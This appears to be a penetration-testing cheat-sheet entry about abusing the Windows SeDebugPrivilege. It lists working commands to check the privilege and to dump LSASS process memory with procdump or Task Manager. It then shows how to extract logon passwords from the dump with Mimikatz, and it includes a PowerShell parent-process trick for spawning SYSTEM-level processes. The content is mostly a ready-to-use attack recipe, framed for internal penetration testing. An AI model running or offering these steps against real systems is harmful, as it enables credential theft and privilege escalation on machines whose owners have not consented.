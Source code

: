 ---
description: |
  This guide demonstrates how to enumerate and exploit the SeDebugPrivilege on Windows to dump LSASS process memory for credential extraction. It covers checking for SeDebugPrivilege, dumping LSASS using procdump or Task Manager, and extracting credentials with Mimikatz. These steps are useful for internal penetration testing and privilege escalation scenarios.

  Command Reference:

      Target: Local Windows machine with SeDebugPrivilege

command: |
  whoami /priv | findstr /i "SeDebugPrivilege"

code: |
  procdump.exe -accepteula -ma lsass.exe lsass.dmp
  mimikatz.exe
    log
    sekurlsa::minidump C:\PATH\OF\LSASS.dmp
    sekurlsa::logonpasswords

  From Task Manager: Details -> lsass.exe -> right click -> Create Dump File -> extract credentials with Mimikatz

  tasklist 
  .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://www.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/token-privileges
  - https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
  - https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/
  - https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/securing-